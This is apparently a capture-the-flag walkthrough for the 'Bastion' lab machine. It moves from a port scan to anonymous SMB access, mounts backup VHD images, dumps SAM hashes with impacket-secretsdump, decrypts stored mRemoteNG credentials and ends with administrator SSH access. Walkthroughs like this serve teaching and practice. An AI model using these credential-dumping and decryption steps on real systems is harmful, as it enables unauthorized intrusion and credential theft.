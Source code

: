# Bastion

**Machine Information**

	IP : 10.10.10.134
	OS : Windows

### Reconnaissance

**Rustscan**

Start by running a port scan using `rustscan` which should reveal multiple open ports: `22`, `135`, `139`, `445`, and `5985`.

```
rustscan -a 10.10.10.134 -- -sC -sV
```

```
PORT      STATE SERVICE      REASON  VERSION
22/tcp    open  ssh          syn-ack OpenSSH for_Windows_7.9 (protocol 2.0)
| ssh-hostkey: 
|   2048 3a:56:ae:75:3c:78:0e:c8:56:4d:cb:1c:22:bf:45:8a (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC3bG3TRRwV6dlU1lPbviOW+3fBC7wab+KSQ0Gyhvf9Z1OxFh9v5e6GP4rt5Ss76ic1oAJPIDvQwGlKdeUEnjtEtQXB/78Ptw6IPPPPwF5dI1W4GvoGR4MV5Q6CPpJ6HLIJdvAcn3isTCZgoJT69xRK0ymPnqUqaB+/ptC4xvHmW9ptHdYjDOFLlwxg17e7Sy0CA67PW/nXu7+OKaIOx0lLn8QPEcyrYVCWAqVcUsgNNAjR4h1G7tYLVg3SGrbSmIcxlhSMexIFIVfR37LFlNIYc6Pa58lj2MSQLusIzRoQxaXO4YSp/dM1tk7CN2cKx1PTd9VVSDH+/Nq0HCXPiYh3
|   256 cc:2e:56:ab:19:97:d5:bb:03:fb:82:cd:63:da:68:01 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBF1Mau7cS9INLBOXVd4TXFX/02+0gYbMoFzIayeYeEOAcFQrAXa1nxhHjhfpHXWEj2u0Z/hfPBzOLBGi/ngFRUg=
|   256 93:5f:5d:aa:ca:9f:53:e7:f2:82:e6:64:a8:a3:a0:18 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIB34X2ZgGpYNXYb+KLFENmf0P0iQ22Q0sjws2ATjFsiN
135/tcp   open  msrpc        syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds syn-ack Windows Server 2016 Standard 14393 microsoft-ds
5985/tcp  open  http         syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp open  http         syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        syn-ack Microsoft Windows RPC
49665/tcp open  msrpc        syn-ack Microsoft Windows RPC
49666/tcp open  msrpc        syn-ack Microsoft Windows RPC
49667/tcp open  msrpc        syn-ack Microsoft Windows RPC
49668/tcp open  msrpc        syn-ack Microsoft Windows RPC
49669/tcp open  msrpc        syn-ack Microsoft Windows RPC
49670/tcp open  msrpc        syn-ack Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -39m58s, deviation: 1h09m15s, median: 0s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Bastion
|   NetBIOS computer name: BASTION\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2024-05-11T07:51:24+02:00
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 26941/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 21730/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 18741/udp): CLEAN (Timeout)
|   Check 4 (port 56495/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-time: 
|   date: 2024-05-11T05:51:26
|_  start_date: 2024-05-10T03:32:18
```

### Getting a Foothold

**SMB**

Checking the SMB shares without any credentials reveals one called `Backups`.

```
smbclient -N -L 10.10.10.134
```

Connect to the SMB share and see which files are accessible.

```
smbclient -N \\\\10.10.10.134\\Backups
```

After a bit of exploration it appears to be the remnants of a Windows Backup.

```
smb: \WindowsImageBackup\L4mpje-PC\> dir
  .                                  Dn        0  Fri Feb 22 23:45:32 2019
  ..                                 Dn        0  Fri Feb 22 23:45:32 2019
  Backup 2019-02-22 124351           Dn        0  Fri Feb 22 23:45:32 2019
  Catalog                            Dn        0  Fri Feb 22 23:45:32 2019
  MediaId                            An       16  Fri Feb 22 23:44:02 2019
  SPPMetadataCache                   Dn        0  Fri Feb 22 23:45:32 2019```
```

**Mounting Shares**

 Mount the share on our attack machine to investigate the files further.

```
sudo mkdir /mnt/smb 
sudo mount -t cifs //10.10.10.134/Backups /mnt/smb
```

In the `WindowsImageBackup` folder there are two VHD files.

```
ls -la '/mnt/smb/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351'
```

```
-rwxr-xr-x 1 root root   37761024 Feb 22  2019 9b9cfbc3-369e-11e9-a17c-806e6f6e6963.vhd
-rwxr-xr-x 1 root root 5418299392 Feb 22  2019 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd
```

A bit research found a way to mount these to the share `/mnt/vhd`. Create a new mount point.

```
sudo mkdir /mnt/vhd
```

For this I used `guestmount` which can be installed using the following command:

```
sudo apt install guestmount
```

Mount both of the VHD files.

```
sudo guestmount --add 9b9cfbc3-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro -v /mnt/vhd
```

```
sudo guestmount --add 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro -v /mnt/vhd
```

**Dumping NTLM Hashes**

Explore the file system to find the `SAM` and `SYSTEM` file in the `System32` direcotry:

```
sudo ls -la /mnt/vhd/Windows/System32/config
```

```
-rwxrwxrwx 1 root root   262144 Feb 22  2019 SAM
-rwxrwxrwx 1 root root  9699328 Feb 22  2019 SYSTEM
```

We can dump the NTLM hashes using `impacket-secretsdump`.

```
impacket-secretsdump -sam SAM -system SYSTEM local
```

The NTLM hash for the user `L4mpje` was found on `CrackStation`. Using these credentials we can access the machine using SSH.

```
ssh l4mpje@10.10.10.134
```

Success!

```
l4mpje@BASTION C:\Users\L4mpje>whoami                                            bastion\l4mpje
```

The user flag can be found in the following directory:

```
C:\Users\L4mpje\Desktop\user.txt
```

### Privilege Escalation

Checking the installed applications shows one that I have never seen, `mRemoteNG`

```
dir "C:\Program Files (x86)"
```

```
22-02-2019  15:01    <DIR>          mRemoteNG
```

After a bit of research we found where the credentials are stored for this application.

```
dir C:\Users\L4mpje\AppData\Roaming\mRemoteNG
```

If we print the contents of the `confCons.xml` file we receive username and password hashes for our user and the Administrator. Using the following tool we can decrypt the hash for both users.

> https://github.com/haseebT/mRemoteNG-Decrypt

```
python3 mremoteng_decrypt.py -s "<HASH>"
```

Now that we have credentials for the Administrator we can SSH in again.

```
ssh administrator@10.10.10.134
```

We can find the root flag in the following location:

```
C:\Users\Administrator\Desktop\root.txt
```
